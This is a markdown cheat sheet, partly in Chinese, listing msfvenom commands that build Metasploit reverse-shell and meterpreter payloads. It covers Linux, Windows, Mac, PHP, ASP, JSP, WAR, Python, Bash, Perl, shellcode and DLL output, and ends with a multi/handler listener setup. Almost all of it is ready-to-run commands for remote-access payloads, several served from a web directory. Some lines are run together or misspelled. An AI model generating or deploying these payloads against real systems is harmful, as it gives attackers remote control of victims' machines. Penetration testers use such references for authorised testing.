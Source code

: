 # msfs生成各种payload
## msfvencom -l
#### Linux
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=14704 -f elf >/var/www/html/shell.elf`
#### Windows
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=16041 -f exe >/var/www/html/pt16041.exe`
  `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=6666 -f exe >/var/www/html/install.exe`
#### Mac
  `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.machoWeb Payloads`
#### PHP
  `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.phpcat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php &&pbpaste >> shell.php`

#### ASP
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

#### JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

#### WAR
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to ConnectOn> -f war > shell.warScripting Payloads`
#### Python
`msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`
#### Bash
`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`
#### Perl
`msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`
## SellCode
#### Linux Based SellCode
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
#### Windows Based Shellcode
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
#### Mac Based Shellcode
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
#### Handlers
`Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.`
#### 生成dll文件
`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=10975 -f dll -o /var/www/html/x64.dll`

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession falseexploit -j -z
```



